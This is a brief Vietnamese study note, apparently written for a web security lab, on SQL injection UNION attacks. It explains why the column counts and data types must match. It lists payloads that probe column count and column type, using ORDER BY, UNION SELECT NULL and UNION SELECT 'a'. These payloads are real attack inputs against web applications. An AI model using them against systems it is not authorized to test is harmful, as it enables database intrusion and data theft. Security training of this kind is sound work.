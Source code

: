 ## Retrieving data from other database tables

- Trong trường hợp từ bảng này nhưng bạn muốn truy vấn ở một table khác thì câu truy vấn UNION có thể giúp ích

```
SELECT ...
UNION SELECT ...
```

---

# SQL injection UNION attacks

`SELECT a, b FROM table1 UNION SELECT c, d FROM table2`

- Một số yêu cầu khi sửa dụng UNION
  - Các truy vấn phải trả về cùng số cột
  - Các kiểu dữ liệu của mỗi cột phải tương thích với nhau
- Vì vậy trước khi tấn công bằng UNION ta cần kiểm tra:
  - Có bao nhiêu cột được trả về từ truy vấn ban đầu
  - Những cột được trả về từ truy vấn ban đầu có kiểu dữ liệu phù hợp với các cột được chèn không

## Kiểm tra có bao nhiêu cột

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
etc.
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```

## Xác định kiểu dữ liệu của cột

```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

# Using a SQL injection UNION attack to retrieve interesting data

## Lab: SQL injection UNION attack, retrieving data from other tables
